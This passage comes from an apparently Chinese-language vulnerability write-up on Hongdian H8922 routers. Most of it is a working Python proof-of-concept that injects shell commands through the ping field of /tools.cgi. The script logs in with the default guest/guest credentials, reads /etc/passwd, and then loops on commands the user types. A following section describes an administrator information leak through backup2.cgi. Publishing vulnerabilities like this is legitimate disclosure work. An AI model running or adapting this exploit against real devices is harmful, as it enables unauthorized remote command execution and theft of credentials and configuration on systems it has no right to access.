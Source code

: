 ```
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;{}&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        html = etree.HTML(response.text)
        cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
        print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhdwCqxvEWFhkYMYmAMRpzJQK7a2rbquibUP9E1BBabN7xveiaw9xkibMIg/640?wx_fmt=png)

****四:  宏电 H8922 后台管理员信息泄露漏洞 🦉****  

```
登录后台(存在访客用户默认账号密码 guest/guest)
漏洞存在于 backup2.cgi 文件中
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhEfCbdFXmDkq3LmfluVx78K95reYlpvVYTmom1gRiatEYXSrWww61keQ/640?wx_fmt=png)

****分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhGRT3guwmkbrzPW9tgYfUf0aNsQ8h0OJ5QibOOUAqhRoeDcJxRS1Q3PA/640?wx_fmt=png)
